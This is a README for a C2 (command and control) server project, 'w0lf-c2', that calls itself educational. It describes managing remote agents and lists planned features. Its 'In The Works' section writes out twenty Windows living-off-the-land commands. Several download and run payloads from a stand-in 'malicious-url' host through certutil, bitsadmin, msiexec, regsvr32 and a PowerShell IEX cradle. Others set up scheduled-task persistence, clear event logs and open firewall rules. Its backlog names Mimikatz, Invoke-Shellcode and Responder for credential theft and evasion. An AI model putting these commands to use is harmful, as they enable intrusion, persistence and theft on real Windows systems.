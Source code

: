# C2 Server

## Overview

This repository serves as a educational reference and contains the implementation of a Command and Control (C&C) server used for managing and controlling remote clients. The server facilitates communication with these clients, allowing for command execution, data retrieval, and other operations as needed.

## Features

- **Agent Management**: Registering, managing, and communicating with remote clients.
- **Command Execution**: Sending commands to clients and receiving responses.
- **Data Exchange**: Transferring files, data, or payloads securely between server and clients.
- **Security**: Implementing encryption and secure communication channels.
- **Scalability**: Supporting multiple clients simultaneously and efficiently.
- **Pluggable**: Support for additional commands with plugins.

## Setup Instructions

1. **Prerequisites**:
   - Node.js 18+ and npm installed.

2. **Installation**:
   ```bash
   git clone <repository_url>
   cd w0lf-c2
   npm install

## Features

- Client was built on five diffent languages (c, rust, powershell, python, js)
- Multiple client session management
- Extended features through plugins.
- Server and client logging
- Plugins:
   - Client Manager: A client plugin to manage the remote client.
   - Cmd.exe Binaries: A client plugin that provides native cmd.exe commands.
   - File Manager: A client plugin to manage and manipulate files and folders.
   - System Profiling: A client plugin to profile the system.
   - Living Off The Land Binaries: A client plugin that provides Windows LOLBin commands.
   - Screensaver: A server plugin to show a couple screensavers.

## In The Works

- Additional communication channels (https, http2, web socket, udp dgram)
   ```js
   // https
   const https = require('https');
   const server = https.createServer({
      key: fs.readFileSync('server-key.pem'),
      cert: fs.readFileSync('server-cert.pem')
   }, handleClientConnection);

   // http2
   const http2 = require('http2');
   const server = http2.createSecureServer({
      key: fs.readFileSync('server-key.pem'),
      cert: fs.readFileSync('server-cert.pem')
   });

   // websocket
   const WebSocket = require('ws');
   const wss = new WebSocket.Server({ port: 8080 });

   // https
   const http = require('http');
   const server = http.createServer((req, res) => {
      res.statusCode = 200;
      res.setHeader('Content-Type', 'text/plain');
      res.end('Hello World\n');
   });

   // udp
   const dgram = require('dgram');
   const server = dgram.createSocket('udp4');
   server.on('message', (msg, rinfo) => {
      console.log(`server got: ${msg} from ${rinfo.address}:${rinfo.port}`);
   });
- Add more LOLBas commands
   ```bash
   # 1. certutil.exe for Downloading Files
   certutil.exe -urlcache -split -f http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 2. regsvr32.exe for Script Execution
   regsvr32.exe /s /n /u /i:http://malicious-url/script.sct scrobj.dll
   # 3. wmic.exe for Remote Command Execution
   wmic.exe process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command 'IEX ((New-Object Net.WebClient).DownloadStrin ('http://malicious-url/payload.ps1'))'"
   # 4. rundll32.exe for DLL Execution
   rundll32.exe C:\Path\To\Malicious.dll,EntryPoint
   # 5. schtasks.exe for Task Scheduling
   schtasks.exe /create /tn "UpdateTask" /tr "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1" /sc daily /st 12:00
   # 6. at.exe for Task Scheduling (Legacy)
   at.exe 12:00 /every:M,T,W,Th,F,Sa,Su "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1"
   # 7. msiexec.exe for MSI Execution
   msiexec.exe /quiet /i http://malicious-url/payload.msi
   # 8. scrcons.exe for Script Execution
   scrcons.exe C:\Path\To\Script.vbs
   # 9. xcopy.exe for File Copying
   xcopy /Y C:\Path\To\Malicious.exe C:\Windows\System32\Malicious.exe
   # 10. whoami.exe for User Information
   whoami.exe /all
   # 11. fsutil.exe for File System Utility
   fsutil file createnew C:\Path\To\Malicious.txt 1000
   # 12. wevtutil.exe for Event Log Management
   wevtutil.exe cl System
   # 13. certreq.exe for Certificate Requests
   certreq.exe -new Malicious.inf
   # 14. typeperf.exe for Performance Data
   typeperf "\Processor(_Total)\% Processor Time"
   # 15. bitsadmin.exe for Background File Transfers
   bitsadmin.exe /transfer "jobname" /download /priority normal http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 16. netsh.exe for Network Shell
   netsh advfirewall firewall add rule name="MaliciousRule" dir=in action=allow program="C:\Path\To\Malicious.exe" enable=yes
   # 17. cscript.exe for Script Execution
   cscript C:\Path\To\Malicious.vbs
   # 18. icacls.exe for ACL Management
   icacls C:\Path\To\Malicious.exe /grant Everyone:(RX)
   # 19. wbadmin.exe for Backup Operations
   wbadmin start backup -backupTarget:\\localhost\Backup -include:C:\Path\To\Malicious.exe
   # 20. xcopy.exe with /b Switch for Payload Dropping
   xcopy /b Malicious.exe C:\Windows\System32\LegitFile.dll

## Backlog
Other ideas and things on the back burner:

- Net Commands: Used for network reconnaissance and information gathering.
- netstat: Displays active network connections, listening ports, and related information.
- net: Used for various network operations such as user authentication, shares, sessions, and more.
- arp: Displays and modifies the ARP cache.

- PowerShell Commands: PowerShell provides extensive capabilities for attackers, including scripting, execution of malicious payloads, and interacting with system APIs.
- Invoke-Mimikatz: Executes Mimikatz, a tool for retrieving credentials from memory.
- Invoke-Obfuscation: Obfuscates malicious PowerShell scripts to evade detection.
- Invoke-Shellcode: Executes shellcode in memory without writing to disk.

- Enumeration Tools: Tools used to gather information about the compromised system and the network.
- Nmap: A powerful network scanner used for host discovery, port scanning, and service enumeration.
- enum4linux: Enumerates information from Windows and Samba systems, such as shares, users, groups, policies, and more.
- Responder: Listens for and captures NetNTLMv1/v2 authentication requests, used for credential theft.

- Exploitation Frameworks: Frameworks used to exploit vulnerabilities and gain unauthorized access.
- Metasploit Framework: A popular exploitation framework that includes a large collection of exploits, payloads, and post-exploitation modules.
- Empire: A post-exploitation framework that allows attackers to maintain persistence, escalate privileges, and exfiltrate data.

- Privilege Escalation Tools: Tools and techniques used to escalate privileges on compromised systems.
- PowerUp: PowerShell script that checks for common Windows privilege escalation vectors.
- Windows Exploit Suggester: Python script that suggests potential exploits for Windows systems based on OS version and patch level.
